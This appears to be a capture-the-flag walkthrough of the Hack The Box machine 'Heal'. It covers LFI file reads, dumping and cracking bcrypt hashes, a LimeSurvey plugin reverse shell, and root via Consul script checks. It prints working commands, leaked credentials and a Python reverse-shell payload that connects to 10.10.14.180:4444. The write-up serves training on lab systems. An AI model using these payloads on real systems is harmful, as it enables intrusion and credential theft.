 Let's scan the IP address `10.10.11.46`
```bash
sudo nmap -v -sC -sV 10.10.11.46
```
![image](images/20250404175741.png)

Let's go to the website

![image](images/20250322182212.png)

Let's try to register and intercept the request in `Burp Suite`

![image](images/20250322184322.png)

We see that there is a reference to `http://api.heal.htb`. Let's add it to `/etc/hosts` and go to it

![image](images/20250322184438.png)

Now we can register

![image](images/20250322184706.png)

![image](images/20250322184715.png)

If you click `Survey`, a website with a new submenu `http://take-survey.heal.htb` will open. Add it to `/etc/hosts` as well
If you simply go to this address, you will get the following output:

![image](images/20250404183920.png)

Now the administrator `ralph@heal.htb` is known.
The admin authorization page was found (`/admin --> http://take-survey.heal.htb/index.php/admin/authentication/sa/login`)

![image](images/20250404183945.png)

Let's try to export a PDF file and intercept the request in `Burp Suite`.
Sending data to `/expected`.

![image](images/20250404193605.png)

Next, it checks whether access to the `/download` resource is allowed with the `GET` method and the `Authorization` header.

![image](images/20250404193626.png)

Request to download the file

![image](images/20250404193643.png)

And then the PDF file is downloaded. 
Since all actions take place on the server, you can try to exploit LFI

![image](images/20250404194531.png)

![image](images/20250404194554.png)

![image](images/20250404194649.png)

LFI works. Now we know that there are users `ralph` and `ron`. Let's try to find the database for `Rails`. The [documentation](https://guides.rubyonrails.org/command_line.html) mentions the existence of the `/config/database.yml` file.

![image](images/20250404195431.png)

Let's try to download it.

![image](images/20250404195514.png)

![image](images/20250404195532.png)

![image](images/20250404195607.png)

Let's download the file `/storage/development.sqlite3`

![image](images/20250404195833.png)

![image](images/20250404195851.png)

![image](images/20250404195909.png)

Let's open it with `sqlite3`

![image](images/20250404200447.png)

```hashes
ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|ralph|1
test@test.com|$2a$12$ixJT6jUCT8kBXBcHsKw94.pYzoJL4wOuzTs8noUwDVaAS.E50Zmue|test|0
andres@htb.com|$2a$12$iliM9hW1LzsuwabZz4GXFurTfRAtt6txQQJVS10EmTjwWAmAc0oH6|andres|0
0xbandit@gmail.com|$2a$12$7h5X5h8D1k/ilFpMZasrH.RdOI5BpuXMs7pwKu0DSew786hf0qOgG|0xbandit|0
0xbandit2@gmail.com|$2a$12$x6AcggrhJ/7oo7Dvhj/oMeXkACScu6UJFlnbcm3f5ZogbpbVIQAF6|0xbandit2|0
dex1d@gmail.com|$2a$12$xXJDD6NeUZuLhW9Ig5ytD.lgBsjd1ziBiGoU5GUo2mr8G4Vtf81BK|dex1d|0
```
We are interested in `ralph`, as he is the only admin. This is a password hash in `bcryp` format. Let's crack it:
```bash
hashcat -m 3200 ralph /usr/share/wordlists/rockyou.txt
```

![image](images/20250404201551.png)

```Password
147258369
```

Log in to the admin panel

![image](images/20250404201637.png)

In this panel, you can upload your plugins. Let's upload our plugin with `reverse shell`. To do this, find a ready-made exploit on GitHub (https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE).
There are two files: `config.xml` and `revshell.php`. They need to be packed into a ZIP archive to be uploaded to the site as a plugin.
```bash
zip -r ReverseShellPlugin.zip config.xml revshell.php
```

![image](images/20250404203227.png)

Run the script to enter the `reverse shell`
```bash
python exploit.py http://take-survey.heal.htb ralph 147258369 80
```

```bash
python3 -c 'import pty; pty.spawn(“/bin/bash”)'
```
Go to the site directory (it is located at `/var/www/limesurvey` instead of the usual `/var/www/html`) and look for configuration files. We see a line with data for logging into the database

![image](images/20250404210840.png)

```Password
pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;
```
Log in to it
```bash
PGPASSWORD=‘AdmiDi0_pA$$w0rd’ psql -U db_user -h localhost -d survey
```
Display the list of tables
```psgl
\dt
```

![image](images/20250404212130.png)

There is a table called `lime_users`. Let's view its contents
```psgl
select * from lime_users;
```

![image](images/20250404212226.png)

```hash
$2y$10$qMS2Rbu5NXKCPI5i6rjQPexhhJk33kv3KNt4uNjJ5XEvV9hv.om/C
```
Unfortunately, this is the same password that was used to log in to the panel on the website

![image](images/20250404213858.png)

Посмотрим есть ли локально запущенные сервисы
```bash
netstat -lntp
```
![image](images/20250404214100.png)

<div style="page-break-after: always;"></div>

- **5432** — PostgreSQL.
- **3000, 3001** — Possibly Node.js, Rails, or other web applications.
- **8500, 8503, 8600, 8300-8302** — Consul ports (service and configuration management system)
Let's examine port `8500`:
```bash
curl http://localhost:8500
```
We see the output
```HTML
<a href="/ui/">Moved Permanently</a>
```
This means that the `Consul` server (running on port 8500) redirects requests from the root path `/` to the web interface `/ui/`.
Let's try to exploit RCE on `Consul` via `curl`. Let's send a `reverse shell`
```bash
curl -X PUT -d '{
    “ID”: “rc”,
    “Name”: “Remote code execution”,
    “Shell”: “/bin/bash”,
    “Interval”: “5s”,
    “Args”: [
        “python3”,
        “-c”,
        “import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\”10.10.14.180\", 4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p=subprocess.Popen([\“/bin/sh\”, \“-i\”])"
    ]
}' http://localhost:8500/v1/agent/check/register
```

![image](images/20250404220114.png)
## What is happening?
1. **Check registration:**
- **ID:** `rc` — check identifier.
- **Name:** `Remote code execution` — check name.
    - **Shell:** `/bin/bash` — shell for executing the command.
- **Interval:** `5s` — the check will run every 5 seconds.
- **Args:** Command to execute.
2. **Reverse Shell command:**
    - Uses `Python3` to create a reverse connection to IP `10.10.14.180` on port `4444`.
- The code opens a socket, redirects standard streams (`stdin`, `stdout`, `stderr`) and launches an interactive shell (`/bin/sh -i`) .

**Consul** is a tool for managing and discovering services that can execute scripts to check the health of services. In our case, the `HTTP API Consul` was available on port 8500, and it appears that the `-enable-script-checks` setting was enabled, allowing arbitrary commands to be executed. This is a known vulnerability that allows attackers to register a check with a malicious script if the API is accessible over the network and there is no proper protection, such as `ACL` (access control lists).
The `curl` command sent a `PUT` request to the endpoint `/v1/agent/check/register` (used to register a new check in `Consul`) with a `JSON` payload that included a `Python` script in the `Args` field. (According to the Consul API documentation (https://developer.hashicorp.com/consul/api-docs/agent/check), the Args field allows you to specify a command to execute if scripted checks are enabled.) This script created a reverse shell by connecting to our listener at `10.10.14.180:4444`. Since `Consul` was configured to execute scripts for checks and was likely running with `root` privileges, executing the script gave access to `root`.
